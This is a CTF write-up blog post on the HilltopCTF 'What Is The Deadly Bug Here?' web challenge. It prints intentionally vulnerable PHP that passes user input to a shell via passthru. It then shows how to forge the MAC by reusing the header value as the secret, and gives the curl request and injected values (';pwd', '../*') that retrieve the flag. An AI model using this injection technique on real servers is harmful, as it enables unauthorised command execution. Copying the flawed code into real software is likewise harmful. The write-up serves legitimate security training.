 layout: post
title: "What is the Deadly Bug Here?"
date: 2020-05-01
categories: CTF
---===/// HilltopCTF - What Is The Deadly Bug Here? ///===---

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube,
and I subscribed him! I think he is very passionate and thoughtful about security things,
and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug
here?." I was very amazed back then. But, that video made me think: I can't just stop with
knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?`
While viewing the headers, we are provided some handy notes left to us by the author of the code.
By passing `?debug` along, we can view their "patched" source code.
```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```
We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when
passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is
aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.
```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```
I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything
obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge
description. The video referenced an attack where he was able to set the variable nonce to an array,
causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret.
The patched code in this challenge utilizes an `is_string` check to keep you from passing an array
through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also
utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash
length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through
a command to list directory contents to find the flag. After hours of failure, I went to bed
determined to find the solution. The next morning I awoke to a hint on discord that says look
at what you know and how it's calculated. I immediately realized that the function that is formulating
the hash to display in the headers is the same function that calculates secret if we set the variable nonce.
```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```
By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that
is passed to us through the header! Now that we control what the secret is, we can use an interactive
php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to
find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says
what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);`
is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`,
so I crafted a mac for `../*` and got the flag!
```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```
I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet
and corresponding match. Once I realized that the answer had been staring me in the face the
whole time I was able to solve the challenge in a matter of minutes.
